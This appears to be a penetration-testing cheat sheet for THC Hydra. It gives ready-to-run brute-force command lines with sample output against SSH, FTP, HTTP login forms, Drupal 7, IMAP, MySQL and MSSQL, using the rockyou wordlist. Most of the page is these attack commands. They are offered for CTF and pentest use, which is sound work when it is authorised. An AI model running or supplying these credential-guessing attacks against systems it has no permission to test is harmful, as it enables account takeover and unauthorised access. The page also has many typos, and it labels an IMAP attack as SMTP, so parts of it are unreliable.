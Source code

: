 # THC Hydra
[THC Hydra](https://sectools.org/tool/hydra/) is a tool commonly used to brute force user credentials. Always remember that you are at the mercy of your wordlists during these types of attacks. The longer, more accurate/finely-tuned wordlist = the fatser you get positive results.
## SSH
To brute force SSH credentials, use the following command. This will brute force the credentials for the `root` user.

```
root@kali:~# hydra -l root -P /wordlists/rockyou.txt (target ip address) ssh
[WARNING] Many SSH configurations limit the number of parallel tasks, it is \
recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344423 login tries (l:1/p:0), ~14344423 tries per task
[DATA] attacking ssh://(target ip address):22/
[STATUS] 257.00 tries/min, 257 tries in 00:00h, 0 to do in 01:00h, 14344167 active
[STATUS] 245.00 tries/min, 735 tries in 00:00h, 0 to do in 03:00h, 14343689 active
[STATUS] 231.14 tries/min, 1618 tries in 00:00h, 0 to do in 07:00h, 14342806 active
```

## FTP
To brute for an FTP service with a known username try the following command.

`hydra -l (UID) -P /path/to/500-worst-passwords.txt (TARGET IP ADDRESS) ftp`

## HTTP
To brute for an HTTP form, try the following syntax with `hydra`:
### HTTP POST Form
`hydra -l (USERNAME) -P /path/to/wordlist.txt (TARGET IP ADDRESS) http-post-form "/URI/path/to/login.php:(HTML FORM USERNAME ATTRIBUTE)=^USER^&(HTML FORM PASSWORD ATTRIBUTE)=^PASS^&Login=Login:(FAILED LOGIN MESSAGE)"`

Where `HTML FORM USERNAME ATTRIBUTE` is the HTML form username "name" attribute. E.g.: `<input type=text name="username" />` In that example, the `username` value for the attribute `name` is what would be used. Same gfoes for the password: `<input type=password name="passwd" />` In that exmaple `passwd` would be used to construct the command as it is the value of the password input's name attribute. The command would then look something like so:

  ... `:username=^USER^&passwd=^PASS^` ...
  
  `hydra` will fill in the `^USER^` and `^PASS^` values upon every single HTTP request with each username and password that you mean to test.
### HTTP GET Form
The GET parameters, that you seein the URL bar, are rarely used for HTTP authentication. This is because developers do not want to make your username and password "bookmarkable." Some cases in CTF, penetratiuon testing, etc, beg to differ. To perform a GET request for a password brute force, you must understand there are some caveats. 
1. You cannot use certain characters in your password. 
This is because of the URL/HTTP transport encoding. FOr instance, sometimes a "#" in a password from `rockyou.txt` will cause an HTTP 400 Bad Request repose from the server.

Let's take a look at an HTTP GET login password brute force attempt using THC-Hydra,
```
root@attacker-machine:~# hydra -l admin -P /pwnt/passwords/wordlists/rockyou.txt (TARGET IP ADDRESS) http-get-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Please Login|Bad Request"
```
As you can see, I used a pipe "|" to say "OR" to ignore Error 400 Bad Request responses form the target server.

### Drupal 7
In Drupal 7 we need to first get the form_build_id from the `./user/` directory as so,
```
root@wnl8:~# curl -s http://drupal.site/user/ | grep form_build_id | cut -d "\"" -f 6
```
Alternatively, if this does not provide a string, like, `form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw` for example, then simply hit CTRL+U on the `./user/` page and search for "form_build_id"
Next, we can use Hydra on Drupal as so,
```
hydra -l admin -P /wordlists/rockyou.txt (TARGET DRUPAL IP) http-form-post "/?q=user/:name=admin&pass=^PASS^&form_id=user_login&form_build_id=form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw:Sorry
```
And as you see, I have inserted the Drupal form ID and I am attempting to brute force the `admin` user.

## SMTP (IMAP SSL)
To brute force SMTP via SSL Authentication, you must first enumerate which port ssl/imap is runniing on using `nmap`. In our case, we found port 993 as,

```
993/tcp  open  ssl/imap   Dovecot imapd
|_imap-capabilities: ID more IDLE have IMAP4rev1 ENABLE LOGIN-REFERRALS SASL-IR LITERAL+ listed capabilities Pre-login post-login AUTH=PLAINA0001 OK
```

We also need to enumerate a valid username. We can hlearn how to do so from the [SMTP User Enumeration Module](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Enumeration/smtp-user-enumeration.md). After gathering these two pieces of information, we can use `hydra` to try to brute force the authentication like so:

`root@kali:~# hydra (TARGET IP ADDRESS) smtp -l (USERNAME) -P /path/to/wordlist.txt -V -s (TARGET PORT)`

## MySQL
To brute force MySQL services (usually running on port 3306 of the target system), use the following syntax with THC-Hydra,
```
root@attacker-system:~# hydra -l root -P /path/to/wordlist.txt (TARGET IP ADDRESS) mysql
```

## MSSQL
```
root@demon:~# hydra -l sa –P /path/to/rockyou.txt 10.10.10.125 mssql
```
